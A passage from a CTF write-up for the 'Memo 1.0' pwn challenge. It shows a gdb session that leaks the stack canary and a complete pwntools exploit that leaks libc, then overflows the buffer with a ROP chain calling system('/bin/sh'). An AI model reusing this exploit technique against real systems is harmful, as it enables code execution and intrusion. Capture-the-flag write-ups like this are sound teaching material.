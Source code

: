 Now when we run option 2 (`puts`):

```
gef➤  c
Continuing.
How many characters do you want to change:1
===================Memo 1.0===================
1. Add  Memo
2. Show Memo
3. Edit Memo
4. Clean All
Your choice:2
Content:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA||,�y
===================Memo 1.0===================
1. Add  Memo
2. Show Memo
3. Edit Memo
4. Clean All
Your choice:
```

We leaked the canary!

---

## Part IV

With this, the end is practically in sight. What's left is nothing but standard ROP. As mentioned near the beginning, the return is triggered through an invalid option.

```python
from pwn import *

e = context.binary = ELF('./memo1_patched')
libc = ELF('./libc.so.6')
p = e.process() if not args.REMOTE else remote('chall.geekctf.geekcon.top', 40311)

p.sendline(b'CTF_is_interesting_isn0t_it?')

def leak(offset):
    p.sendline(b'3')
    p.sendline(str(-4294967296+offset).encode()) # 0xffffffff00000000
    p.sendline(b'A'*(offset-2) + b'||')

    p.sendline(b'2')
    p.recvuntil(b'||')
    return p.recvline(keepends=False)

canary = u64(b'\0' + leak(0x108+1)[:7])
log.info(f'Canary: {hex(canary)}')

libc.address = u64(leak(0x118).ljust(8, b'\0')) - 0x29d90
log.info(f'Libc: {hex(libc.address)}')

rop = ROP(libc)
rop.call(rop.ret)
rop.call(libc.sym.system, [next(libc.search(b'/bin/sh\0'))])

p.sendline(b'3')
p.sendline(b'-1')
p.sendline(b'A'*0x108 + p64(canary) + b'B'*0x8 + rop.chain())
p.sendline(b'5')

```